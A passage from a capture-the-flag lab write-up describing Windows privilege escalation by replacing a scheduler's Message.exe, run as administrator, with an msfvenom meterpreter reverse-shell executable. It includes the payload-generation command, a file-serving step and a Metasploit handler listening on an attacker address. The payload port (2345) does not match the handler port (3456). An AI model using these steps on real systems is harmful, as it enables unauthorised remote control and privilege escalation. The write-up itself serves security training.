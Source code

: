 From the WindowsScheduler logs, we see that `Message.exe` is executed about every 30 seconds as administrator. We can take advantage of this to replace `Message.exe` with our reverse shell so that it is executed as adminstrator.

## #4.5 - Using this abnormal service, escalate your privileges! What is the user flag (on Jeffs Desktop)? 

*Hint: Check exploit-db.com for a public writeup of this vulnerability. The missing binary isn't the same as the public exploit.*

Unfortunately, with our meterpreter, we have insufficient privileges to read the user flag and we can't migrate to another process either:

~~~
meterpreter > cd users
meterpreter > ls
Listing: c:\users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   0     dir   2019-08-03 20:15:04 +0200  .NET v4.5
40777/rwxrwxrwx   0     dir   2019-08-03 20:15:04 +0200  .NET v4.5 Classic
40777/rwxrwxrwx   8192  dir   2019-08-03 19:43:51 +0200  Administrator
40777/rwxrwxrwx   0     dir   2013-08-22 16:48:41 +0200  All Users
40555/r-xr-xr-x   8192  dir   2013-08-22 15:36:16 +0200  Default
40777/rwxrwxrwx   0     dir   2013-08-22 16:48:41 +0200  Default User
40555/r-xr-xr-x   4096  dir   2013-08-22 15:36:16 +0200  Public
100666/rw-rw-rw-  174   fil   2013-08-22 17:39:32 +0200  desktop.ini
40777/rwxrwxrwx   0     dir   2019-08-04 20:54:52 +0200  jeff

meterpreter > cd jeff
[-] stdapi_fs_chdir: Operation failed: Access is denied.
~~~

Time to replace `C:\Program Files (x86)\SystemScheduler\Message.exe` with a reverse shell. Let's first generate new reverse shell (use a new port) that we will name `Message.exe`:

~~~
$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.9.0.54 LPORT=2345 -f exe -o Message.exe
$ python3 -m http.server
~~~

In Metasploit, configure the handler:

~~~
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.9.0.54
LHOST => 10.9.0.54
msf5 exploit(multi/handler) > set LPORT 3456
LPORT => 3456
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.0.54:3456 
~~~
